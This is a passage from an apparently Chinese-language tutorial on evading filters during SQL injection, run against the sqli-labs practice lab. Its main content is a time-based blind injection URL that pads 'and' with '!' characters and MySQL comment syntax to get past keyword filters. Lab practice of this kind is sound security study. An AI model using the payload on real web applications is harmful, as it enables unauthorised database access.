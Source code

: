 ![在 and 后加 !](./../../../../images/SQL%20%E6%B3%A8%E5%85%A5%E5%85%8D%E6%9D%80/%E5%9C%A8%20and%20%E5%90%8E%E5%8A%A0%20!.png)

在 and 后再加两个 `!` 

```
http://192.168.186.129/sqli-labs/Less-1/?id=1'and!!!if(ascii(substr(database/**/(/*!*/),1,1))>116,1,sleep/**/(/*!3*/))--+
```

![在 and 后再加两个 !](./../../../../images/SQL%20%E6%B3%A8%E5%85%A5%E5%85%8D%E6%9D%80/%E5%9C%A8%20and%20%E5%90%8E%E5%86%8D%E5%8A%A0%E4%B8%A4%E4%B8%AA%20!.png)
